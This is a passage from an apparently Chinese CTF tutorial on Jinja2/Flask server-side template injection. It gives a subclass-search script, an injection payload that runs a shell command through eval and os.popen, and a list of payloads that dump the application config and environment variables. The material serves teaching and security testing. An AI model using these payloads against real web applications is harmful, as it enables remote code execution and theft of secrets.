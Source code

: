 ```
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)
    yield from visit(obj)
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if item.__init__.__globals__.keys():
            for path, obj in search(item,5):
                if obj in ('__builtins__','os','eval'):
                    print('[+] ',item,num,path)
        num+=1
    except:
        num+=1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2SQD5c36AclctSiacTzhONw12pS50T8TfibJ9vdFZmWx1ibxEfIMvBVOK6g/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2Sq2c5vkBm3FC58akDPBKq7ZSfSKtjLwhBlbxcOkwGskrmNMfO3ib4XYg/640?wx_fmt=jpeg)

构造 payload

```
?name={{''.__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls')").read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2SibvYVt0gksT86WISibGntAMwicmicF3QiaibBMyYmqORMIiaBKz7lElOm9tNQ/640?wx_fmt=jpeg)

但通常 ctf 不会直接给出 ssti 漏洞直接利用，通常会有一些过滤字符让我们不太好直接利用需要通过各种手法绕过，下面我会具体讲一下

### 4. 内置类属性和方法

```
__class__          返回对象所属的类
__bases__          以元组形式返回一个类所直接集成的类
__base__           以字符串形式返回一个类所直接集成的类
__mro__            返回解析方法调用的顺序
__subclasses__()   获得类的所有子类
__globals__        用于获取当前空间下可使用的模块、方法及其所有变量
__builtins__       这个内建名称空间中存在一些我们经常用到的内置函数（即不需要导入包即可调用的函数)
__dict__           保存类实例或对象实例的属性变量键值对字典
__init__           类的初始化方法
```

### 5. 常见 payload

1. 获取配置

```
{{config}}
{{self.__dict__._TemplateReference__context.config}}
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config}}
```
